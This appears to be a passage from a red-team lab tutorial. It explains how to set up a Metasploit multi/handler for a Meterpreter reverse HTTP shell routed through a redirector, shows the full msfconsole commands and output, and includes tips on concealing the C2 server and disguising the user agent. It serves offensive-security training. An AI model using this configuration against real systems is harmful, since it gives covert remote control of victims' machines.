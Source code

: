 ```shell-session
```

**Setting Up Exploit/Multi/Handler**

To set up Meterpreter properly, we need to make a few modifications; We must set our LHOST argument to the incoming interface that we are expecting connections from, in our lab; this will be 127.0.0.1. In the real world, this will be your public interface that your Redirector will be connecting to (aka your Public IP Address), and the LPORT will be whatever you like. For the lab, we will be using TCP/8080; this can be whatever you like in production. As always, the best practice is to run services over their standard protocols, so HTTP should run on port 80, and HTTPS should run on port 443. These options will also need to be duplicated for ReverseListenerBindAddress and ReverseListenerBindPort.

Next, we need to set up OverrideLHOST - This value will be your redirector's IP Address or Domain Name. After that, we need to set the OverrideLPORT; this will be the port that the HTTP _or_ HTTPS is running on, on your Redirector. Lastly, we must set the OverrideRequestHost to true. This will make Meterpreter respond with the OverrideHost information, so all queries go through the Redirector and not your C2 server. Now that you understand what must be configured, let's dive into it:

MetasploitRedirector

```shell-session
root@kali$ msfconsole
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 exploit(multi/handler) > set ReverseListenerBindPort 8080
ReverseListenerBindPort => 8080
msf6 exploit(multi/handler) > set OverrideLHOST 192.168.0.44
OverrideLHOST => 192.168.0.44
msf6 exploit(multi/handler) > set OverrideLPORT 80
OverrideLPORT => 80
msf6 exploit(multi/handler) > set HttpUserAgent NotMeterpreter
HttpUserAgent => NotMeterpreter
msf6 exploit(multi/handler) > set OverrideRequestHost true
OverrideRequestHost => true
msf6 exploit(multi/handler) > run
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started HTTP reverse handler on http://127.0.0.1:8080
[*] http://127.0.0.1:8080 handling request from 127.0.0.1; (UUID: zfhp2nwt) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 3 opened (127.0.0.1:8080 -> 127.0.0.1 ) at 2022-02-11 02:09:24 -0500

```

After this has all been set up, running your Meterpreter Reverse Shell should now proxy all communications through your Redirector! For awareness, the diagram below is how our Redirector is set up in our lab; as a reminder, in engagements, you will want to use **multiple** hosts and DNS records instead of IP Addresses.&#x20;
